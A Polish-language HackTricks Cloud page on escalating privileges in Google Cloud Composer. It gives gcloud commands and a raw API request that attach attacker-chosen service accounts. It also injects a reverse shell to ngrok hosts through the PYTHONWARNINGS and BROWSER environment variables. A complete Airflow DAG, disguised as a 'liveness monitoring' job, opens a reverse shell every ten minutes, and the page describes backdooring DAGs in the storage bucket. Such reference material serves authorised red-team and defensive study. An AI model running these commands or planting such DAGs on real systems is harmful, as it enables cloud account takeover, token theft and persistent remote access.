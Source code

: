 # GCP - Composer Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## composer

Więcej informacji w:

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

Możliwe jest **przypisanie dowolnego konta usługi** do nowo utworzonego środowiska kompozytora z tym uprawnieniem. Później możesz wykonać kod wewnątrz kompozytora, aby ukraść token konta usługi.
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
Więcej informacji na temat eksploatacji [**tutaj**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

Możliwe jest zaktualizowanie środowiska kompozytora, na przykład, modyfikując zmienne środowiskowe:

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: Uzyskaj RCE, dodając nowe pakiety pypi do środowiska

### Pobierz Dags

Sprawdź kod źródłowy dagów, które są wykonywane:

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### Importuj Dags

Dodaj kod DAG w Pythonie do pliku i zaimportuj go, uruchamiając:

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```
{% endcode %}

DAG odwrotnego powłoki:

{% code title="reverse_shell.py" %}
```python
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
'start_date': airflow.utils.dates.days_ago(0),
'retries': 1,
'retry_delay': timedelta(minutes=5)
}

dag = DAG(
'reverse_shell',
default_args=default_args,
description='liveness monitoring dag',
schedule_interval='*/10 * * * *',
max_active_runs=1,
catchup=False,
dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
task_id='bash_rev',
bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
dag=dag,
depends_on_past=False,
priority_weight=2**31 - 1,
do_xcom_push=False)
```
{% endcode %}

### Dostęp do zapisu w koszu Composer

Wszystkie komponenty środowisk composer (DAGi, wtyczki i dane) są przechowywane w koszu GCP. Jeśli atakujący ma uprawnienia do odczytu i zapisu, może monitorować kosz i **za każdym razem, gdy DAG jest tworzony lub aktualizowany, przesłać wersję z backdoorem**, aby środowisko composer pobrało z magazynu wersję z backdoorem.

Uzyskaj więcej informacji na temat tego ataku w:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

### Importuj wtyczki

TODO: Sprawdź, co można skompromitować, przesyłając wtyczki

### Importuj dane

TODO: Sprawdź, co można skompromitować, przesyłając dane

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
